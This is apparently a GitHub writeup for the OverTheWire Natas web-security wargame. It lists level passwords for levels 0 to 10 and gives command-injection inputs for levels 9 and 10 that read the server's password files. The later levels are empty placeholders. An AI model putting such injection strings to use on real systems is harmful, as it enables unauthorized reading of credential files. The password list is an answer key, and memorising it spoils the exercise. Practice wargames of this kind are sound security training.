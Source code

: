 # Natas Writeup

![natas](logo.png)
#### Natas teaches the basics of serverside web-security.. [Play Natas Wargame](https://overthewire.org/wargames/natas/ )

#### [+] Level0
![natas](level0.gif)
```
gtVrDuiDfck831PqWsLEZy5gyDz1clto
```
#### [+] Level01
![natas](level1.gif)
```
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
```
#### [+] Level02
![natas](level2.gif)
```
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```
#### [+] Level03
![natas](level3.gif)
```
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
#### [+] Level04
![natas](level4.gif)
```
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
#### [+] Level05
![natas](level5.gif)
```
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
#### [+] Level06
![natas](level6.gif)
```
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
#### [+] Level07
![natas](level7.gif)
```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```
#### [+] Level08
![natas](level8.gif)
```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
#### [+] Level09
![natas](level9.gif)
```
 word;/bin/cat /etc/natas_webpass/natas10

 Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
#### [+] Level10
![natas](level10.gif)
```
. natas /etc/natas_webpass/*

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
#### [+] Level11
```

```
#### [+] Level12
```

```
#### [+] Level13
```

```
#### [+] Level14
```

```
#### [+] Level15
```

```
#### [+] Level16
```

```
#### [+] Level17
```

```
#### [+] Level18
```
```

#### [+] Level21
```

```
#### [+] Level22
```

```
#### [+] Level23
```

```
#### [+] Level24
```

```
#### [+] Level27
```

```

